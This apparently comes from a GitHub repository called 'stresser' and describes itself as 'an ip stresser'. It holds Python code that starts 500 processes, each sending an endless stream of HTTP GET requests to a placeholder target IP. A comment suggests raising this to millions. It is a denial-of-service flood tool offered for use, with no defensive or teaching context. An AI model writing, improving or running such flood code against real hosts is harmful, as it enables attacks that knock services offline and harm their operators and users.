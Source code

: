 # stresser
its an ip stresser 
C import socket
import time
from multiprocessing import Process

def send_packet():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(("Ip_goes_here", 80))
        sock.send(b"GET / HTTP/1.1\r\nHost: target_ip\r\n\r\n")
        sock.close()
        time.sleep(0.1)

if __name__ == "__main__":
    processes = []
    for _ in range(500):  #10000000
        p = Process(target=send_packet)
        p.start()
        processes.append(p)

    for p in processes:
        p.join()
